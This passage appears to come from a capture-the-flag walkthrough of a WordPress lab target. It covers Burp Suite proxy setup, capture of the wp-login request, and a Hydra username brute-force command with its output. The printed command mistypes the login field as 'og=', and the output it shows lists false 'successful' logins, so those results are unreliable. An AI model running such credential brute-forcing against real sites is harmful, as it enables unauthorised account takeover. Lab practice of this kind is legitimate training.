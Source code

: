     Open BurpSuite
    Click on Proxy
    Select "Options"
    Click "Running" on Interface
    Now, open your Firefox browser and select "Preferences" -> "Advanced" -> "Network" -> Settings"
    Select "Manual Proxy Configuration"
    Copy Proxy IP from Burp to here
    Copy Port from Burp to here

Now all you do is enable intercept and navigate to the wp-login page. Or if you are there already, just refresh the page!
Now we are able to intercept the information between the target website and our computer.

Once we have all that setup, let's look at something. Let's select the "Send to Intruder" and then open the Intruder tab. What I want you to do is put in a random username & password in the login page and then click "Log In".

Once you do that, go to Burp and find this string;
log=admin&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.0.48%2Fwp-admin%2F&testcookie=1

This will come in handy in just a second.
Now, we can right click and select "Send to Repeater". This will allos us to change the username & password in the Burp and then send it back to the website to see what we can get.

But right now, we are going to use a special tool called Hydra that will allow us to bruteforce the targets username!
  
**Using Hydra to Bruteforce Usernames**  
```
$ hydra -V -L usernames.txt -p test 10.0.0.48 http-post-form '/wp-login.php:og=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-30 11:32:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.0.0.48:80/wp-login.php:og=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username
[ATTEMPT] target 10.0.0.48 - login "true" - pass "test" - 1 of 858235 [child 0] (0/0)
[ATTEMPT] target 10.0.0.48 - login "false" - pass "test" - 2 of 858235 [child 1] (0/0)
[ATTEMPT] target 10.0.0.48 - login "wikia" - pass "test" - 3 of 858235 [child 2] (0/0)
[ATTEMPT] target 10.0.0.48 - login "from" - pass "test" - 4 of 858235 [child 3] (0/0)
[ATTEMPT] target 10.0.0.48 - login "the" - pass "test" - 5 of 858235 [child 4] (0/0)
[ATTEMPT] target 10.0.0.48 - login "now" - pass "test" - 6 of 858235 [child 5] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Wikia" - pass "test" - 7 of 858235 [child 6] (0/0)
[ATTEMPT] target 10.0.0.48 - login "extensions" - pass "test" - 8 of 858235 [child 7] (0/0)
[ATTEMPT] target 10.0.0.48 - login "scss" - pass "test" - 9 of 858235 [child 8] (0/0)
[ATTEMPT] target 10.0.0.48 - login "window" - pass "test" - 10 of 858235 [child 9] (0/0)
[ATTEMPT] target 10.0.0.48 - login "http" - pass "test" - 11 of 858235 [child 10] (0/0)
[ATTEMPT] target 10.0.0.48 - login "var" - pass "test" - 12 of 858235 [child 11] (0/0)
[ATTEMPT] target 10.0.0.48 - login "page" - pass "test" - 13 of 858235 [child 12] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Robot" - pass "test" - 14 of 858235 [child 13] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Elliot" - pass "test" - 15 of 858235 [child 14] (0/0)
[ATTEMPT] target 10.0.0.48 - login "styles" - pass "test" - 16 of 858235 [child 15] (0/0)
[80][http-post-form] host: 10.0.0.48   login: true   password: test
[ATTEMPT] target 10.0.0.48 - login "and" - pass "test" - 17 of 858235 [child 0] (0/0)
[80][http-post-form] host: 10.0.0.48   login: false   password: test
[80][http-post-form] host: 10.0.0.48   login: scss   password: test
[80][http-post-form] host: 10.0.0.48   login: page   password: test
[ATTEMPT] target 10.0.0.48 - login "document" - pass "test" - 18 of 858235 [child 1] (0/0)
[80][http-post-form] host: 10.0.0.48   login: from   password: test
```